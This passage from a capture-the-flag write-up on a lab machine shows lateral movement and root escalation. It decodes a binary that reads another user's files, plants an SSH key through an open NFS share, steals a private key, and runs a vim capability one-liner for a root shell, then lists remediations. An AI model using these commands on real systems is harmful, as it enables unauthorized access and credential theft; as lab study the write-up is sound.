When I decompiled it with Ghidra, and I analyze the `main` function, then I can understand that it runs a `bash` command and it uses the user `1002` to run it:



When I use the Python interpreter to decode the hex data:
```Python
>>> cmd_hex = [0x7461632f6e69622f, 0x6c2f656d6f682f20, 0x2f6472616e6f65]
>>> command = b''.join(map(lambda x: x.to_bytes(8,'little'), cmd_hex))
>>> print(command)
b'/bin/cat /home/leonard/\x00'
```
Then I see the command `/bin/cat /home/leonard/`, And because it allows me to fill the path with the script argument, then I can conclude that the user `william` can run as the user `leonard`, and it runs the `cat` command in leonard's home
but I can not run it on the shared folder, because it is my local machine, then I have to connect it to the william's shell, and I can do that if I generate the ssh keys, and I store the public key at `/home/william/.ssh`
When I generate the SSH keys on my local home with the `ssh-keygen` command:
```shell
$ ssh-keygen -t rsa -b 4096 -f ./id_rsa -P ""
```
And I create the `.ssh` directory in the `william` shared folder:
```shell
william@attack-pc:/mnt/william$ mkdir .ssh
```
And I copy the public key, and also rename it from `id_rsa.pub` to `authorized_keys`:
```shell
$ sudo -su william cp id_rsa.pub /mnt/william/.ssh/authorized_keys
```
And I connect with the `ssh` command:
```shell
$ ssh -i id_rsa william@192.168.2.19
```
Then I can connect it to the william's shell :



And because I already know how the binary `script` works, when I run the binary with the argument:
```shell
william@undiscovered:~$ ./script .ssh/id_rsa
```
Then I get the leonard private key, and I can connect to leonard's shell :



## Privilege escalation

And I can verify that `leonard` belongs to the `developer` group, and that means now I can try to use the capabilities of `/usr/bin/vim.basic`, and I look [vim in gtfobins](https://gtfobins.github.io/gtfobins/vim/), and I follow the instructions.

When I run the command:
```shell
leonard@undiscovered:~$ /usr/bin/vim.basic -c ':py3 import os;
> os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
Then with the user `leonard`, I can run commands with `uid=0`, and I find the root flag:



## Remediation
Given the remote code injection vulnerability `CVE-2020-7209`, Then upgraded `RiteCMS from 2.2.1` to the latest version, and do not expose the directory listing to an unauthorized user, and do not use a leaked password, and do not share in an NFS service with the reading, and the write permissions of the home directory without any authentication, and avoid setuid permissions when not needed, and avoid giving risky capabilities to binaries, then with that, it might not be possible to get the root shell.